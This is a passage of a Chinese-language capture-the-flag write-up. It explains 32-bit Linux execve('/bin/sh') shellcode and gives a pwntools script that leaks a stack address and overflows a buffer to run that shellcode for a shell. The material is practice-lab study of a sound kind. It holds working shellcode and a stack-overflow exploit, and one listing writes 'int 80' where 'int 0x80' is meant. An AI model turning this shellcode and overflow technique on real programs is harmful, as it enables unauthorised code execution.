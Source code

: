 
```c
xor eax,eax     //清空eax
push eax        //0入栈，当作字符/bin/sh结尾
push '/sh'
push '/bin'     //'/sh'为3字节，未对齐' ->'/sh\0'或//sh
mov ebx, esp    //指向/bin/sh地址
xor ecx,ecx
xor edx,edx
mov al, 0xb     //系统调用号
int 80
```

```c
shellcode='''
xor eax,eax
push eax
push %s
push %s
mov ebx, esp
xor ecx,ecx
xor edx,edx
mov al, 0xb
int 0x80''' %(u32('/sh\0'),u32('/bin'))
```

使用asm(shellcode)来进行汇编,可以使用context来指定cpu类型以及操作系统，如context(arch = 'amd64' , os = 'linux', log_level="debug")


### Catch THE FLAG

```python
from pwn import *
from binascii import *

shellcode='''
xor eax,eax
push eax
push %s
push %s
mov ebx, esp
xor ecx,ecx
xor edx,edx
mov al, 0xb
int 0x80''' %(u32('/sh\0'),u32('/bin'))

def dbg():
    p = process('./start')
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    context.log_level = 'debug'
    gdb.attach(proc.pidof(p)[0])
    pause()
    return p

def leak_esp(p):
    start = p.recvuntil(':')
    payload = 'a'*0x14 + p32(0x08048087)
    p.send(payload)
    saved_esp = p.recv()[:4]
    return u32(saved_esp)

def pwn(p,saved_esp):
    payload = 'a'*0x14 + p32(saved_esp + 20) + asm(shellcode)
    p.send(payload)
    p.interactive()

```